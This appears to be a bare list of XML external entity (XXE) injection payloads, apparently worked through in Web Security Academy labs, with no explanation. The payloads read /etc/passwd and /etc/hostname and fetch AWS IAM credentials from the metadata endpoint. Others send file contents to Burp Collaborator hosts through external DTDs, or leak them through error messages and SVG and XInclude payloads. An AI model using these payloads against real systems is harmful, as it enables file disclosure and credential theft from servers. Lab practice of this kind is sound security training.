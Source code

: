 <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://rzu3myo95gq0y3qt4gppvjmf56bzzo.burpcollaborator.net"> ]>
<stockCheck><productId>1</productId><storeId>&xxe;</storeId></stockCheck>


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://w30e27jb97pwr6wmdhzd8ae0hrnhb6.burpcollaborator.net"> ]>
<stockCheck><productId>%xxe;</productId><storeId>1</storeId></stockCheck>



<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://vdcdc6taj6zv156lng9ci9ozrqxjl8.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a2c000a036b0f9bc03d212b01f200b3.web-security-academy.net/exploit.dtd"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>



<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

https://www.imagetotext.info/

https://gist.github.com/jakekarnes42/b879f913fd3ae071c11199b9bd7ba3a7?short_path=f3432ae

https://www.exploit-db.com/docs/49732






<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>




<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///ahjsgdkuaysgdujkaysgdujkaysd/%file;'>">
%eval;
%error;

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0a3e006203087e62c0b81ac8010e0028.web-security-academy.net/exploit.dtd"> %xxe;]><stockCheck><productId>%xxe;</productId><storeId>1</storeId></stockCheck>





productId=%3c%66%6f%6f%20%78%6d%6c%6e%73%3a%78%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%49%6e%63%6c%75%64%65%22%3e%3c%78%69%3a%69%6e%63%6c%75%64%65%20%70%61%72%73%65%3d%22%74%65%78%74%22%20%68%72%65%66%3d%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%2f%3e%3c%2f%66%6f%6f%3e&storeId=1







